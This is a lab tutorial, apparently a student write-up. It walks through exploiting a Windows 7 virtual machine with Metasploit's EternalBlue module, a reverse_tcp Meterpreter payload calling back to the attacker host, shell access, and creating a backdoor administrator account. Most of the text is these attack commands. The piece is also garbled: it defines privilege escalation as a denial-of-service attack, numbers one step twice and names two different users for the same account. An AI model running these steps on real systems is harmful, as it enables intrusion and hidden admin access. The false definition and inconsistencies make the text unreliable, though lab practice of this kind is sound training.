

Privilege Escalation
Privilege Escalation attack is a type of cyber attack that aims to disrupt the
availability of a computer system, network, or service by overwhelming it with a high volume of traffic.
The goal of a DoS attack is to make the targeted system or service unavailable to legitimate users,
essentially denying them a`ccess. DoS attacks can last from a few hours to many months, costing companies and consumers time
and money while their resources and services are unavailable.
To Ping windows 7 with Kali linux
Step 1: Download windows 7 from this link in your PC (https://archive.org/details/Windows7Professional64Bit)
Step 2: Create a new VM machine in the VM ware.

Step 3: Open the windows 7 in VM and TURN OFF firewall settings. In CMD type ipconfig to get the IP address of windows7.

Step 4: Now go to kali Linux and type ifconfig to get the IP of Kali linux.

Step 5: Now use the command line interface for the Metasploit Framework msfconsole which is a powerful open-source penetration testing and exploitation framework.
Step 5: Exploits are used to gain unauthorized access, control, or privileges on a target system or to perform malicious actions. Use eternalblue exploit.
Step 6: Then use that exploit named eternalblue. SMB is the vulnerability found here.
use exploit /windows/smb/ms17_010_eternalblue
Step 7: set rhosts 192.168.208.129

Step 8: set payload windows/x64/meterpreter/reverse_tcp

Step 9: set lhost 192.168.208.128
Step 10: set lport 4321

Step 11: exploit
Step 12: After exploit we can access windows 7 from kali linux directly. Will try to create a user in windows from kali. Then type sysinfo
Step 13: Type shell To take access of windows 7 cmd from kali
Step 14: Type systeminfo (To check the details from windows cmd)

Step 15: Type tasklist (To check the taskloist from windows cmd)
Step 16: To create a new user in windows system from kali type net user rocky pas123 /add. Then to list all the users in windows type net users

Step 17: To add hacker user to admin group and provide previleges net localgroup administrators hacker /add .

Step 18: To check whether the user has created in the windows7 log off and try to login again. The user is created succesfully from Kali Linux to the windows 7.

Since the windows 7 is having vulnerability called SMB(Server message Block protocol) we bypassed the login in the windows. The exploit we have used here is eternalblue ms17_010_. Using this vulnerability we can try to hack WINDOWS 7 & 2008 R2 Server.